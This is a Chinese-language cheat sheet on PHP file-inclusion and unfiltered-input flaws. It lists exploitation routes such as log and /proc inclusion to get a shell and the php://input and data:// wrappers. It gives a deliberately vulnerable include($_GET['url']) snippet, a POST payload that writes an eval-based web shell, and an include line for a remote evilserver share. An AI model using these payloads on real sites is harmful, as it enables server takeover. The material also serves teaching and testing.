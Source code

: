 ### 文件包含

原理：

include()/include\_once()，require()/require\_once()，中的变量可控

利用方法：

1. 上传图片（含有php代码的图片）
2. 读文件，读php文件
3. 包含日志文件getshell
4. 包含/proc/self/envion文件getshell
5. 如果有phpinfo可以包含临时文件
6. 包含data://或php://input等伪协议（需要allow\_url\_include=On)

封装协议：

```php
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
复制代码
## 访问共享目录
include ('\evilservershell.php');
复制代码
## post提交数据
<?php
  include($_GET['url']);
?>
## http://127.0.0.1/111332.php?url=php://input
## POST内容为：
<?php fwrite(fopen("xxx.php","w"),'<?php eval($_POST["cc"]);?>');?>
复制代码
```

### 提交参数无过滤

原理:过滤了GPC，但没有过滤其它部分。

```php
上传文件相关变量如$_FIle
$_GET，$_POST，$_Cookie，$_SERVER，$_ENV，$_SESSION，$_REQUEST
HTTP_CLIENT_IP 和HTTP_XFORWORDFOR 中的ip不受gpc影响
$_HTTP_COOKIE_VARS
$_HTTP_ENV_VARS
$_HTTP_GET_VARS
$_HTTP_POST_FILES
$_HTTP_POST_VARS
$_HTTP_SERVER_VARS
复制代码
```
